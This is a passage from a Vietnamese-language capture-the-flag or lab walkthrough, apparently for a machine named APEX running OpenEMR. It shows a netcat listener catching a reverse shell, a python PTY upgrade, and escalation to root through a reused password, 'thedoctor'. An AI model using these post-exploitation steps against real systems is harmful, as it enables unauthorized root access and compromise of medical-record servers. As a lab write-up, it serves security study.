 Có vẻ như exploit này đang bị treo, nhưng listener đã phát hiện ra một reverse shell.

```
──(kali㉿kali)-[~]
└─$ nc -lvp 4444
listening on [any] 4444 ...
192.168.120.204: inverse host lookup failed: Unknown host
connect to [192.168.118.5] from (UNKNOWN) [192.168.120.204] 58084
bash: cannot set terminal process group (1104): Inappropriate ioctl for device
bash: no job control in this shell
www-data@APEX:/var/www/openemr/interface/main$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Escalation

### Password Reuse

Mật khẩu gốc được sử dụng lại trên hệ thống này và giống với mật khẩu của người dùng quản trị cho OpenEMR: `thedoctor`. Tuy nhiên cần tạo một shell TTY phù hợp để sử dụng `su`. Nếu không có nó sẽ gặp lỗi.

```
www-data@APEX:/var/www/openemr/interface/main$ su root
su root
su: must be run from a terminal
www-data@APEX:/var/www/openemr/interface/main$
```

Tạo ra một lớp shell thích hợp.

```
www-data@APEX:/var/www/openemr/interface/main$ python -c 'import pty; pty.spawn("/bin/bash")'
<ain$ python -c 'import pty; pty.spawn("/bin/bash")'
www-data@APEX:/var/www/openemr/interface/main$
```

Bây giờ có thể đăng nhập với tư cách là `root:thedoctor`.

```
www-data@APEX:/var/www/openemr/interface/main$ su root
su root
Password: thedoctor

root@APEX:/var/www/openemr/interface/main# whoami
whoami
root
```